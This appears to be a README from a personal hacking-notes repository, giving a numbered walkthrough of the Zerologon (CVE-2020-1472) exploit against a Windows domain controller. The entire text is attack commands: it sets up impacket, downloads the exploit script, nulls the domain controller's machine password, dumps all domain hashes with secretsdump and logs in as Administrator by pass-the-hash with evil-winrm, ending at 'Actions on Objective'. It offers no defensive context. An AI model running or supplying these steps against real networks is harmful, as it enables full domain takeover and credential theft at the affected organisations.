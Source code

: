 # How to perform the Zero Logon Exploit

1. Perform these commands (in order) on attack machine:
```
python3 -m pip install virtualenv
```
```
python3 -m virtualenv impacketEnv
```
```
source impacketEnv/bin/activate
```
pip install git+https://github.com/SecureAuthCorp/impacket

2. Put zeroLogon-NullPass.py on attack machine:
```
wget https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py
```
Note: if the link above ever breaks, you can find the same code in the same directory that this code is found (https://github.com/KyserClark/Hacking-Notes/blob/main/Exploits/Zero%20Logon/zeroLogon-NullPass.py) 

3. Perform this command:
```
python3 zeroLogon-NullPass.py [DC NetBIOS Name] [MACHINE-IP]
```
Note: You can use nmap to find the NetBIOS name of the domain controller:
```
nmap -sC -sV [TARGET-IP]
```

4. Dump hashes:
```
secretsdump.py -just-dc -no-pass [DC NetBIOS Name]\$@[MACHINE-IP]
```

5. Login with account hash:
```
evil-winrm -i [TARGET-IP] -u Administrator -H [NTLM-HASH]
```

6. Actions on Objective
